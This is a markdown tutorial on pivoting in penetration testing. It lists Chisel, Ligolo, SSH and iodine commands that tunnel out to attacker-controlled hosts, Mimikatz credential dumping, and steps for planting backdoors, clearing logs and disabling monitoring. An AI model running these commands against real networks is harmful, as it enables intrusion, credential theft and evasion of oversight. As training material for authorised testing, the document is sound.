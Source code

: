 # Pivoting in Penetration Testing

## Introduction
Pivoting is a crucial technique in penetration testing that allows an attacker to use a compromised system as a bridge to access an otherwise restricted network. This enables lateral movement within an organization’s internal infrastructure. By leveraging pivoting, attackers can bypass security controls like firewalls and access sensitive internal resources.

## Types of Pivoting
1. **Network Pivoting** - Routing traffic through a compromised system to access internal networks.
2. **Port Forwarding** - Exposing services from an internal machine to the attacker's machine.
3. **VPN Pivoting** - Creating a VPN connection to route all traffic through the compromised host.
4. **SOCKS Proxy Pivoting** - Using a SOCKS proxy to tunnel traffic through a compromised host.
5. **Metasploit Pivoting** - Utilizing Metasploit's autoroute and SOCKS modules.
6. **Plink (PuTTY Link) Pivoting** - Using Plink for SSH tunneling.
7. **SSHuttle Pivoting** - Transparently routing traffic through an SSH connection.
8. **RDP Pivoting** - Using Remote Desktop Protocol (RDP) to access internal machines.
9. **ICMP Tunneling** - Encapsulating data within ICMP packets.
10. **DNS Tunneling** - Exfiltrating or tunneling data over DNS queries.

## Step-by-Step Guide to Pivoting

1. Compromise an Initial Host
  - Gain access to an external system using exploits, phishing, or credentials.
  - Obtain a shell or remote desktop access.

2. Identify Network Interfaces
  - Check available interfaces and network connections:
    ```bash
    ip a
    ip route
    ifconfig
    netstat -rn
    ```

  Identify internal IP ranges that may indicate private networks.

3. Enumerate Internal Network
  - Scan internal subnets using: `nmap -sP 10.10.0.0/24`
  - Check for active services: `nmap -sV -p 80,443,3389,445 10.10.0.10`
  - Extract credentials if possible (e.g., from memory dumps or configuration files).

4. Establish Pivoting
  a. SSH Tunneling (Dynamic and Local Port Forwarding)
    - Create a SOCKS proxy to route traffic: `ssh -D 1080 -N user@compromised-host`
    - Use local port forwarding to expose internal services: `ssh -L 8080:10.10.0.10:80 user@compromised-host`
  b. ProxyChains
    - Modify /etc/proxychains.conf to use SOCKS5 proxy: `socks5 127.0.0.1 1080`
    - Run tools through ProxyChains: `proxychains nmap -sT 10.10.0.0/24` 
  c. Chisel (Fast TCP/UDP Tunneling)
    - On the attacker's machine (server): `./chisel server -p 8080 --reverse`
    - On the compromised machine (client): `./chisel client 192.168.1.100:8080 R:1080:socks`
    - Use ProxyChains with Chisel for further tunneling.
  d. Ligolo (Auto Route Creation)
    - On attacker's machine: `./ligolo -reverse -listen :9090`
    - On compromised machine: `./ligolo -connect attacker-ip:9090`
  e. Metasploit Pivoting
    - Use autoroute to add routes through the compromised system: `run autoroute -s 10.10.0.0/24`
    - Use socks4a module to enable ProxyChains:
      ```bash
      use auxiliary/server/socks4a
      set SRVPORT 1080
      exploit
      ```
  f. SSHuttle Pivoting
    - Transparently route traffic through an SSH connection: `sshuttle -r user@compromised-host 10.10.0.0/24`
  g. Plink (PuTTY Link) Pivoting
    - Windows-based SSH tunneling: `plink.exe -D 1080 -N user@compromised-host`
  h. RDP Pivoting
    - Use RDP to connect to internal machines: `xfreerdp /u:user /p:password /v:10.10.0.10`
  i. ICMP Tunneling
    - Use tools like icmptunnel to route traffic over ICMP: `./icmptunnel -s attacker-ip`
  j. DNS Tunneling
    - Use iodine to tunnel traffic over DNS: `iodine -f -P password -r attacker.com`
  
5. Routing Traffic Through Compromised Host
  - Use Metasploit’s autoroute to configure routes: `run autoroute -s 10.10.0.0/24`
  - Scan the internal network from Metasploit: `run post/multi/manage/autoroute`

6. Exploit Further and Move Laterally
  - Use credentials to access other machines (Pass-the-Hash, RDP, SMB, etc.).
  - Dump credentials using Mimikatz:
    ```bash
    mimikatz.exe
    sekurlsa::logonpasswords
    ```
  - Use SMB relay attacks to gain further access.

7. Maintain Access and Cover Tracks
  - Set up persistent backdoors (e.g., SSH keys, scheduled tasks).
  - Clear logs and disable security monitoring where possible.

## Conclusion
Pivoting is a powerful technique in penetration testing that allows an attacker to move deeper into a target network. Mastering tools like SSH, Chisel, Ligolo, Metasploit, and ProxyChains enables penetration testers to navigate restricted environments effectively.
